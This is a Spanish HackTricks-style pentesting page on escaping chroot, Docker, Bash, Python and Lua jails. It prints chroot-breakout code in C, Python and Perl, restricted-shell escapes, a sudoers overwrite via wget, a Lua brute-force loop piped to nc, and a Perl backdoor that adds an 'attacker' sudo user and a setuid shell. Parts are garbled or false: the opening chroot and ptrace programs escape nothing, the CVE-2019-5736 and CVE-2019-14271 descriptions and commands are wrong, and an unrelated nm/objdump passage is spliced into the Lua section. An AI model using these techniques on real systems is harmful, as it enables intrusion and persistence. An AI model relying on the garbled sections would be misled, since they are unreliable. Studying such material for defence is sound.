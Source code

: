 ```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>

int main(int argc, char **argv) {
    if (argc != 2) {
        printf("Usage: %s <directory>\n", argv[0]);
        exit(1);
    }

    if (chroot(argv[1]) != 0) {
        perror("chroot");
        exit(1);
    }

    if (chdir("/") != 0) {
        perror("chdir");
        exit(1);
    }

    system("/bin/bash");
    return 0;
}
```

</details>

```bash
gcc break_chroot.c -o break_chroot
./break_chroot /new_chroot
```

### Root + Mount

If you are **root** inside a chroot you **can escape** creating a **mount**. This because **mounts are not affected** by chroot.

```bash
mkdir /tmp/new_root
mount --bind / /tmp/new_root
chroot /tmp/new_root
```

### Root + Ptrace

If you are **root** inside a chroot you **can escape** using **ptrace**. This because **ptrace is not affected** by chroot.

```bash
echo 0 > /proc/sys/kernel/yama/ptrace_scope
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/ptrace.h>
#include <sys/wait.h>

int main(int argc, char **argv) {
    pid_t pid;

    if (argc != 2) {
        printf("Usage: %s <pid>\n", argv[0]);
        exit(1);
    }

    pid = atoi(argv[1]);

    if (ptrace(PTRACE_ATTACH, pid, NULL, NULL) != 0) {
        perror("ptrace");
        exit(1);
    }

    waitpid(pid, NULL, 0);

    if (ptrace(PTRACE_SETOPTIONS, pid, NULL, PTRACE_O_TRACESYSGOOD) != 0) {
        perror("ptrace");
        exit(1);
    }

    if (ptrace(PTRACE_SYSCALL, pid, NULL, NULL) != 0) {
        perror("ptrace");
        exit(1);
    }

    waitpid(pid, NULL, 0);

    if (ptrace(PTRACE_SYSCALL, pid, NULL, NULL) != 0) {
        perror("ptrace");
        exit(1);
    }

    printf("Escaped!\n");

    return 0;
}
```

```bash
gcc break_ptrace.c -o break_ptrace
./break_ptrace <pid>
```

## Docker Escapes

### Docker Breakouts

#### Docker Breakout - CAP_SYS_ADMIN

If you have **CAP_SYS_ADMIN** capability you can create a new container with **--privileged** flag and then **mount the host filesystem**.

```bash
docker run -it --rm --cap-add=SYS_ADMIN --privileged ubuntu bash
mount /dev/sda1 /mnt
```

#### Docker Breakout - CAP_DAC_OVERRIDE

If you have **CAP_DAC_OVERRIDE** capability you can **read/write any file** in the host filesystem.

```bash
docker run -it --rm --cap-add DAC_OVERRIDE ubuntu bash
cat /etc/shadow
```

#### Docker Breakout - CAP_SYS_PTRACE

If you have **CAP_SYS_PTRACE** capability you can **ptrace any process** in the host.

```bash
docker run -it --rm --cap-add SYS_PTRACE ubuntu bash
strace -p1
```

### Docker Escapes - CVEs

#### Docker Escape - CVE-2019-5736

This vulnerability allows a **container to overwrite the host `runc` binary** (used by Docker) and therefore **run as root** in the host.

```bash
docker run -it --rm -v /usr:/usr ubuntu bash
echo "echo 0 > /proc/sys/kernel/yama/ptrace_scope" > /usr/bin/docker-runc
chmod +x /usr/bin/docker-runc
```

#### Docker Escape - CVE-2019-14271

This vulnerability allows a **container to overwrite the host `sudoers` file** and therefore **run any command as root**.

```bash
docker run -it --rm -v /etc:/etc ubuntu bash
echo "root ALL=(ALL) NOPASSWD: ALL" > /etc/sudoers
```
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>

Python

</details>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
    os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>

Perl es un lenguaje de programación interpretado de propósito general que se utiliza a menudo en la administración de sistemas y en la creación de scripts. Es posible que un usuario limitado tenga acceso a Perl y pueda ejecutar scripts de Perl. Si es así, puede intentar ejecutar un script de Perl que le permita obtener una shell con permisos elevados. 

Un ejemplo de script de Perl que puede ser útil para la escalada de privilegios es el siguiente:

```perl
#!/usr/bin/perl
use strict;
use warnings;
use POSIX qw(setuid);

my $uid = $<;
my $gid = $(;

if ($uid != 0) {
    print "[-] You need to be root to run this script\n";
    exit(1);
}

my $user = "attacker";
my $home = "/home/$user";
my $shell = "/bin/bash";

if (system("useradd -d $home -s $shell $user") != 0) {
    print "[-] Failed to create user\n";
    exit(1);
}

if (system("echo '$user ALL=(ALL) NOPASSWD: ALL' > /etc/sudoers.d/$user") != 0) {
    print "[-] Failed to add user to sudoers\n";
    exit(1);
}

if (system("cp /bin/bash $home/bash; chmod +s $home/bash") != 0) {
    print "[-] Failed to create setuid shell\n";
    exit(1);
}

print "[+] User created: $user\n";
print "[+] Setuid shell created: $home/bash\n";
```

Este script crea un nuevo usuario con el nombre "attacker", le da permisos de sudo sin contraseña y crea una shell setuid en su directorio de inicio. Para ejecutar este script, simplemente guárdelo en un archivo y ejecute `perl script.pl`. Después de ejecutar el script, puede iniciar sesión como el usuario "attacker" y ejecutar comandos con permisos elevados utilizando `sudo`.
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
    chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + FD guardado

{% hint style="warning" %}
Este caso es similar al anterior, pero en este caso el **atacante almacena un descriptor de archivo al directorio actual** y luego **crea el chroot en una nueva carpeta**. Finalmente, como tiene **acceso** a ese **FD fuera** del chroot, lo accede y **escapa**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("tmpdir", 0755);
    dir_fd = open(".", O_RDONLY);
    if(chroot("tmpdir")){
        perror("chroot");
    }
    fchdir(dir_fd);
    close(dir_fd);  
    for(x = 0; x < 1000; x++) chdir("..");
    chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
Se puede pasar FD a través de Unix Domain Sockets, por lo que:

* Crear un proceso hijo (fork)
* Crear UDS para que el padre y el hijo puedan comunicarse
* Ejecutar chroot en el proceso hijo en una carpeta diferente
* En el proceso padre, crear un FD de una carpeta que está fuera del nuevo chroot del proceso hijo
* Pasar al proceso hijo ese FD usando el UDS
* El proceso hijo cambia su directorio actual a ese FD, y debido a que está fuera de su chroot, escapará de la cárcel.
{% endhint %}

### &#x20;Root + Mount

{% hint style="warning" %}
* Montar el dispositivo raíz (/) en un directorio dentro del chroot
* Ejecutar chroot en ese directorio

Esto es posible en Linux
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Montar procfs en un directorio dentro del chroot (si aún no está montado)
* Buscar un pid que tenga una entrada de root/cwd diferente, como: /proc/1/root
* Ejecutar chroot en esa entrada
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Crear un Fork (proceso hijo) y ejecutar chroot en una carpeta diferente más profunda en el sistema de archivos y cambiar el directorio actual a ella
* Desde el proceso padre, mover la carpeta donde se encuentra el proceso hijo a una carpeta anterior al chroot del hijo
* Este proceso hijo se encontrará fuera del chroot
{% endhint %}

### ptrace

{% hint style="warning" %}
* Hace tiempo los usuarios podían depurar sus propios procesos desde un proceso de sí mismos... pero esto ya no es posible por defecto
* De todas formas, si es posible, se podría ptracear un proceso y ejecutar un shellcode dentro de él ([ver este ejemplo](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Jaulas de Bash

### Enumeración

Obtener información sobre la cárcel:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Modificar PATH

Verifique si puede modificar la variable de entorno PATH.
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Usando vim
```bash
:set shell=/bin/sh
:shell
```
### Crear script

Comprueba si puedes crear un archivo ejecutable con _/bin/bash_ como contenido.
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Obtener bash desde SSH

Si estás accediendo a través de ssh, puedes utilizar este truco para ejecutar una shell bash:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Declaración
```bash
declare -n PATH; export PATH=/bin;bash -i
 
BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Es posible sobrescribir, por ejemplo, el archivo sudoers.
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Otros trucos

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/)\
**También puede ser interesante la página:**

{% content-ref url="../useful-linux-commands/bypass-bash-restrictions.md" %}
[bypass-bash-restrictions.md](../useful-linux-commands/bypass-bash-restrictions.md)
{% endcontent-ref %}

## Jaulas de Python

Trucos para escapar de las jaulas de Python en la siguiente página:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Jaulas de Lua

En esta página puedes encontrar las funciones globales a las que tienes acceso dentro de Lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval con ejecución de comandos:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Algunos trucos para **llamar funciones de una librería sin usar puntos**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
# Enumerar funciones de una biblioteca:

Para enumerar las funciones de una biblioteca, podemos utilizar el comando `nm`. Este comando muestra los símbolos (incluyendo las funciones) de un archivo objeto o de una biblioteca compartida.

Para mostrar solo las funciones de una biblioteca, podemos utilizar el siguiente comando:

```bash
nm -gC /ruta/a/biblioteca.so | grep ' T '
```

Este comando mostrará solo las funciones de la biblioteca, una por línea. El parámetro `-g` indica que se deben mostrar los símbolos globales, `-C` indica que se deben mostrar los nombres de las funciones en formato legible para el usuario y `grep ' T '` filtra solo las funciones (los símbolos que comienzan con `T` indican funciones).

También podemos utilizar el comando `objdump` para mostrar las funciones de una biblioteca:

```bash
objdump -T /ruta/a/biblioteca.so | grep 'FUNC'
```

Este comando mostrará todas las funciones de la biblioteca, una por línea. El parámetro `-T` indica que se deben mostrar las tablas de símbolos y `grep 'FUNC'` filtra solo las funciones.
```bash
for k,v in pairs(string) do print(k,v) end
```
Tenga en cuenta que cada vez que ejecute el comando anterior en un **entorno lua diferente, el orden de las funciones cambia**. Por lo tanto, si necesita ejecutar una función específica, puede realizar un ataque de fuerza bruta cargando diferentes entornos lua y llamando a la primera función de la biblioteca "le":
```bash
#In this scenario you could BF the victim that is generating a new lua environment 
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Obtener una shell interactiva de Lua**: Si estás dentro de una shell limitada de Lua, puedes obtener una nueva shell de Lua (y con suerte ilimitada) llamando a:
```bash
debug.debug()
```
## Referencias

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Diapositivas: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* ¿Trabajas en una **empresa de ciberseguridad**? ¿Quieres ver tu **empresa anunciada en HackTricks**? ¿O quieres tener acceso a la **última versión de PEASS o descargar HackTricks en PDF**? ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* **Únete al** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PR al** [**repositorio de hacktricks**](https://github.com/carlospolop/hacktricks) **y al** [**repositorio de hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
